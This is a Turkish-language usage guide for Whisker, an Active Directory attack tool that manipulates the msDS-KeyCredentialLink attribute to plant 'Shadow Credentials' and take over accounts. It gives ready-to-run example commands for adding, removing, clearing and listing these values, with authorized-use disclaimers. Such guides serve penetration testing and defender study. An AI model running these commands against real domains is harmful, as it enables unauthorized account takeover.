 # Whisker Kullanım Rehberi

## Whisker Nedir?

**Whisker**, Active Directory (AD) kullanıcı ve bilgisayar hesaplarını ele geçirmek için msDS-KeyCredentialLink özniteliğini manipüle ederek "Shadow Credentials" (Gölge Kimlik Bilgileri) ekleme imkânı sağlayan bir C# aracıdır. Araç, Michael Grafnetter'in (@MGrafnetter) DSInternals kodu üzerine inşa edilmiştir.

> **Önemli Not:** Whisker yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Çalışma Gereksinimleri

1. **Desteklenen Domain Controller:**
   - Windows Server 2016 veya üstü.
2. **PKINIT Kerberos Kimlik Doğrulama:**
   - Domain Controller üzerinde sunucu kimlik doğrulama sertifikası olmalıdır.

---

## İndirme ve Çalıştırma

Whisker aracı GitHub üzerinden sağlanabilir:

- [Whisker GitHub Sayfası](https://github.com/eladshamir/Whisker)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/eladshamir/Whisker.git
   ```

2. **Proje Çalıştırma:**
   ```bash
   Whisker.exe <parametreler>
   ```

---

## Kullanım Komutları

### 1. Yeni Bir Gölge Kimlik Bilgisi Eklemek

Bir hedef nesnenin `msDS-KeyCredentialLink` özniteliğine yeni bir değer ekler.

**Parametreler:**
- `/target:<samAccountName>`: Hedef nesne adı. Bilgisayar nesneleri için `$` işareti eklenmelidir. (**Gerekli**)
- `/domain:<FQDN>`: Hedef domain adı. (**Opsiyonel**)
- `/dc:<IP/HOSTNAME>`: Hedef Domain Controller. (**Opsiyonel**)
- `/path:<PATH>`: Sertifikayı depolamak için yol. (**Opsiyonel**)
- `/password:<PASSWORD>`: Sertifika için şifre. (**Opsiyonel**)

**Örnek Kullanım:**
```bash
Whisker.exe add /target:computername$ /domain:contoso.local /dc:dc1.contoso.local /path:C:\cert.pfx /password:P@ssword1
```

### 2. Mevcut Bir Değeri Kaldırmak

Hedef nesnenin `msDS-KeyCredentialLink` özniteliğinden belirli bir DeviceID'yi kaldırır.

**Parametreler:**
- `/target:<samAccountName>`: Hedef nesne adı. (**Gerekli**)
- `/deviceID:<GUID>`: Kaldırılacak değer için DeviceID. (**Gerekli**)
- `/domain:<FQDN>`: Hedef domain adı. (**Opsiyonel**)
- `/dc:<IP/HOSTNAME>`: Hedef Domain Controller. (**Opsiyonel**)

**Örnek Kullanım:**
```bash
Whisker.exe remove /target:computername$ /domain:contoso.local /dc:dc1.contoso.local /deviceid:2de4643a-2e0b-438f-a99d-5cb058b3254b
```

### 3. Tüm Değerleri Temizlemek

Bir nesnenin `msDS-KeyCredentialLink` özniteliğindeki tüm değerleri kaldırır.

**Parametreler:**
- `/target:<samAccountName>`: Hedef nesne adı. (**Gerekli**)
- `/domain:<FQDN>`: Hedef domain adı. (**Opsiyonel**)
- `/dc:<IP/HOSTNAME>`: Hedef Domain Controller. (**Opsiyonel**)

**Örnek Kullanım:**
```bash
Whisker.exe clear /target:computername$ /domain:contoso.local /dc:dc1.contoso.local
```

⚠️ **Uyarı:** Şifresiz kimlik doğrulama için yapılandırılmış hesaplarda bu özniteliğin temizlenmesi kesintilere neden olabilir.

### 4. Mevcut Değerleri Listelemek

Hedef nesnenin `msDS-KeyCredentialLink` özniteliğindeki tüm değerleri listeler.

**Parametreler:**
- `/target:<samAccountName>`: Hedef nesne adı. (**Gerekli**)
- `/domain:<FQDN>`: Hedef domain adı. (**Opsiyonel**)
- `/dc:<IP/HOSTNAME>`: Hedef Domain Controller. (**Opsiyonel**)

**Örnek Kullanım:**
```bash
Whisker.exe list /target:computername$ /domain:contoso.local /dc:dc1.contoso.local
```

---

## Kaynaklar

- [DSInternals Projesi](https://github.com/MichaelGrafnetter/DSInternals)
- [Shadow Credentials Blog Yazısı](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
